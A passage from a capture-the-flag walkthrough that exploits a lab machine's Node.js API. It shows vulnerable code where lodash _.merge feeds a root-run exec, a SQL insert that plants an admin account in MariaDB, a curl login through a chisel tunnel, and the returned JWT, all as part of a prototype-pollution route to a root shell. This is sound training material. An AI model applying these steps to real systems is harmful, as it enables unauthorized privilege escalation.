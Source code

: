 ```jsx
const { exec } = require('child_process');
...
		_.merge(message, req.body);
		exec('/home/victor/pollution_api/log.sh log_message');
```

<aside>
❓ **What so important about this excerpt?**
After luckily landing on XCT’s video regarding Unobtanium, he mentioned that there is a specific vulnerability in JavaScript regarding the _.merge function.

</aside>

<aside>
⚠️ **How can we abuse all of this?**
Well, our attack chain is going to be quite an interesting one but here is the attack plan all laid out. First we need to go into MariaDB and create a user with admin privileges. The db user is in charge of the web application in general so we should have write access. After creating our user, we need to login so that we can obtain a JWT for authentication. Pass in the JWT to allow us to make requests to the `/admin/messages/send` endpoint. Reason being that this is vulnerable to prototype pollution. Since this is run as root, we most likely will be gaining a root shell if all this is done properly.

</aside>

## Requesting Authentication

First create user in MariaDB

- Command
    
    `INSERT INTO users (username, password, role, createdAt, updatedAt) VALUES ('admin', 'password123', 'admin', NOW(), NOW());`
    

![](https://i.imgur.com/k7YnvOB.png)

Ignore the first user, that was me testing the registration endpoint mentioned in the documentation. But now that we have a valid admin we can login as, we can request a authentication cookie after logging in.

*Note that I used chisel to port forward traffic from 3000 to my 3000.*

- Command
    
    `curl localhost:3000/auth/login -X POST -d '{"username": "admin", "password": "password123"}' -H "Content-Type: application/json"`
    

```jsx
Status	:	Ok
	Header		{1}
  x-access-token	:	eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpc19hdXRoIjp0cnVlLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2Nzg2OTQzMjAsImV4cCI6MTY3ODY5NzkyMH0.ibw-iaP8Ca-uHOvQvLDpABGUWpcirqNoUKAUlOgmjvQ
```
